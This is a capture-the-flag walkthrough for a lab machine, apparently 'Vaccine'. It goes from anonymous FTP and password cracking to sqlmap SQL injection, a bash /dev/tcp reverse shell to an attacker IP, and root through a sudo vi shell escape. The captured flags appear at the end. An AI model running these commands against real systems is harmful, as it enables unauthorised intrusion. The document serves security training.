

## TL;DR

First we login anonymously to `ftp` server, and grab the backup file. From this we get the has of admin password and crack it. Then, after login to portal, we use `SQL Injection` to get reverse shell using `sqlmap`. We escalate to root using `vi`, known PE exploit.

### Recon

first we starts with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```


As we can see, there are 3 open ports, port `21` for ftp, port `22` for ssh, and port `80` for http.
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.63
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Login anonymously to ftp

We can see we can login anonymously to ftp, and download the `backup.zip` from there, using the `get` command.
```bash
ftp anonymous@$target
```


### Extract files from backup.zip

When we try to unzip `backup.zip` using the command `unzip backup.zip`, we can see it asks for a password. 
Let's try to crack it using *john the ripper*.

First, we need to transfroms it from `zip` to `hash`, using the command:
```bash
zip2john backup.zip > hashes
```

Then, we can crack it using john:

```bash
john hashes
```

At the end, we can reveal the password using the flag `--show`, like in *hashcat*.
The password is `741852963`.


### Crack the admin password for the login portal

Now, after we unzip the password protected zip, we can see there are two files, `index.php` and `styles.css`. 
When we read the `index.php`, we can see these lines:


So, the username for the login portal on the webserver is `admin`, and the md5 hash of the password is `2cb42f8734ea607eefed3b70af13bbd3`.

We can use `hashcat` to crack the password, the `-m 0` flag is to specify the hash type, which is md5, and the `-a 0` is to specify the attack type, which is dictionary attack.
```bash
hashcat -a 0 -m 0 2cb42f8734ea607eefed3b70af13bbd3 -O  /usr/share/wordlists/rockyou.txt
``` 
And we get the password:
```bash
2cb42f8734ea607eefed3b70af13bbd3:qwerty789
```

So, let's login:


### Using Sql Injection to get shell

When we give the search this value `'` we get error, this line:
```bash
ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
```
using `sqlmap` we can see it is vulnerable to sql injection. We can use the `--os-shell` flag to get shell over the machine, this is the command, we use `--batch` to avoid all the questions. Don't forget to supply your cookie, you need to be authenticated as an admin.
```bash
sqlmap -u http://$target/dashboard.php?search=* --cookie="PHPSESSID=rofujd2i9ic630lkm78a1g3llf" --batch --os-shell
```
Okay, first we want to achieve the reverse shell, using this command:
```bash
bash -c "/bin/sh -i >& /dev/tcp/10.10.14.63/770 0>&1"
```

Then, we'll paste those commands in the shell we got:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

Search for `user.txt` using this command:
```bash
find / -name "user.txt" 2>/dev/null
```

and reading the user flag from `/var/lib/postgresql/user.txt` 
```bash
postgres@vaccine:~$ find / -name "user.txt" 2>/dev/null
/var/lib/postgresql/user.txt
postgres@vaccine:~$ cat /var/lib/postgresql/user.txt
ec9b13ca4d6229cd5cc1e09980965bf7
```

We remember there is a webserver on port `80`, so we can go to `/var/www/html` and view the content the `.php` files, maybe we'll find some credentials:
```bash
postgres@vaccine:/var/www/html$ ls
bg.png  dashboard.css  dashboard.js  dashboard.php  index.php  license.txt  style.css
postgres@vaccine:/var/www/html$ cat dashboard.php
<!DOCTYPE html>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>Admin Dashboard</title>

<REDACTED>

$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

alright, the password for the user `postgres` is `P@s5w0rd!`, we can use it to connect via `ssh`, as we saw in the beginning that port `22` is open:
```bash
ssh postgres@$target
```

### Escalate privilege

After connecting via `ssh`, we start looking for PE. First, we'll check for commands we can run as an root, using:
```bash
sudo -l
```


As we can see, we can execute only one command as root:
```bash
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Okay, so let's run this command:
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

We can go to GTFobins, to this link [https://gtfobins.github.io/gtfobins/vi/#sudo](https://gtfobins.github.io/gtfobins/vi/#sudo), and see this:
```
It can be used to break out from restricted environments by spawning an interactive system shell.
```

```bash
:set shell=/bin/sh
:shell
```

Let's execute those commands, inside the `vi`, 
we managed to spawn a shell as root, :) 

```sh
# id
uid=0(root) gid=0(root) groups=0(root)
# find / -name "root.txt" 2>/dev/null
/root/root.txt
# cat /root/root.txt
dd6e058e814260bc70e9bbdef2715849
# 
```


**User Flag:*****`ec9b13ca4d6229cd5cc1e09980965bf7`***

**Root Flag:*****`dd6e058e814260bc70e9bbdef2715849`***
